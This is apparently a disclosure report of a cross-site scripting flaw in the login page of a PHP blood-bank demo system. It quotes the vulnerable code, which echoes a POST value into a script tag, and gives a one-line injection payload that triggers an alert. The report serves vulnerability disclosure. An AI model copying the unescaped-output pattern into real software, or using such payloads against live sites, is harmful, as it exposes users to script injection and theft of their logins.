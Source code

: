 # blood-bank-system-in-php-with-source-code  via to  XSS

****

## NAME OF AFFECTED PRODUCT(S)

**blood-bank-system-in-php**

## Vendor Homepage

https://code-projects.org/blood-bank-system-in-php-with-source-code/

##  **Manufacturers sites:**

https://code-projects.org/

# AFFECTED  VERSION(S)

## Vulnerable File

login.php

## VERSION(S)

-  v1.0

## Software Link

https://download.code-projects.org/details/09f1f26e-072d-4fec-bd3b-974076ee162c

# PROBLEM TYPE

## Vulnerability Type

- XSS

## Root Cause

The vulnerability file is in the root directory of login.php via $user parameter。 We can construct a payload to trigger XSS via user.

```
   if(isset($_POST['sub']))
      {

        $user=$_POST['user'];
        $pass=$_POST['pass'];
        echo"<script>alert('$user')</script>";

```

![image-20240826120015290](https://github.com/user-attachments/assets/66ae2e65-cf4c-438f-89ba-01c0bd1c3b3c)

## Impact

XSS vulnerability, which can construct a malicious website and obtain the user's login information.You can also get the name of the computer through XSS.

## **Description of the vulnerability**

**blood-bank-system-in-php** login.php .There is an XSS vulnerability in the foreground user of the system, which can execute JS scripts and obtain user information through the vulnerability

## **Vulnerability recurrence**

We need to set up this **blood-bank-system-in-php** website locally

**POC**

```
1');</script><script>alert('xss');</script>
```

![image-20240826120638125](https://github.com/user-attachments/assets/8ed368c7-e5b4-41f6-ae88-26de4c54802e)

**Result**

![image-20240826120651243](https://github.com/user-attachments/assets/7e160141-6484-47d2-b97e-5d37ebab8c16)